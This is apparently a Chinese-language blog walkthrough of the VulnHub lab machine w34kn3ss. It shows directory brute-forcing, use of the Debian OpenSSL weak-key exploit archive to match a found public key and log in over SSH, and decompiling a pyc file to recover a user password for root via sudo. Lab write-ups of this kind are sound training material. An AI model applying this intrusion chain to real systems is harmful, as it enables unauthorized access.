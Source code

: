 ```yaml
---
layout: post
title:  "vulnhub >_ w34kn3ss"
description: walkthrough
category: vulnhub
---
```

# w34kn3ss

![image-20200621221821981]({{ site.url }}/assets/w34kn3ss.assets/image-20200621221821981.png)

![image-20200621221847798]({{ site.url }}/assets/w34kn3ss.assets/image-20200621221847798.png)

根据只要出现名称就要加入hosts并扫描目录的原则将weakness.jth加入hosts，并浏览

![image-20200621222418120]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222418120.png)

打目录

![image-20200621222523843]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222523843.png)

![image-20200621222556792]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222556792.png)

![image-20200621222644741]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222644741.png)

查看文件

![image-20200621222709935]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222709935.png)

这是个很明确的提示`openssl 0.9.8c-1`

以及一个已知的公钥

![image-20200621224141943]({{ site.url }}/assets/w34kn3ss.assets/image-20200621224141943.png)

```bash
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster
```

如果直接使用这个key登录仍然是需要密码的

![image-20200621225204829]({{ site.url }}/assets/w34kn3ss.assets/image-20200621225204829.png)

我们来尝试利用漏洞

![image-20200621222939225]({{ site.url }}/assets/w34kn3ss.assets/image-20200621222939225.png)

查看漏洞利用文件发现介绍

![image-20200621223144518]({{ site.url }}/assets/w34kn3ss.assets/image-20200621223144518.png)

利用提供的下载链接https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

将需要的文件下载到本地工作目录

解压后将会自动生产需要的rsa文件夹

![image-20200621223628637]({{ site.url }}/assets/w34kn3ss.assets/image-20200621223628637.png)

现在我们要利用已知的存放在服务器上的公钥mykey.pub找到漏洞利用中已经可以用来进攻的文件编号。

进入到rsa/2048/目录下，利用grep找出mykey对应的公钥文件，存在

```bash
grep -r -l "AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw=="		#mykey中的内容
```

![image-20200621224745791]({{ site.url }}/assets/w34kn3ss.assets/image-20200621224745791.png)

```bash
4161de56829de2fe64b9055711f531c1-2537.pub
```

这个文件名可以帮我们暴力掉ssh从而使ssh不会再询问密码。

```bash
ssh -i 4161de56829de2fe64b9055711f531c1-2537 n30@10.10.10.142
```

![image-20200621225632400]({{ site.url }}/assets/w34kn3ss.assets/image-20200621225632400.png)

发现一个二进制文件

![image-20200621230601206]({{ site.url }}/assets/w34kn3ss.assets/image-20200621230601206.png)

传回kali，发现是已编译的py

![image-20200621230748673]({{ site.url }}/assets/w34kn3ss.assets/image-20200621230748673.png)

先改名成.pyc。然后使用uncompyle6反编译

![image-20200621231605962]({{ site.url }}/assets/w34kn3ss.assets/image-20200621231605962.png)

看代码应该是将以下的信息推进命令行

```bash
n30:dMASDNB!!#B!#!#33
```

尝试使用dMASDNB!!#B!#!#33作为密码 ,执行sudo -l

![image-20200621231836040]({{ site.url }}/assets/w34kn3ss.assets/image-20200621231836040.png)

成功，并且n30用户能直接root

![image-20200621231950136]({{ site.url }}/assets/w34kn3ss.assets/image-20200621231950136.png)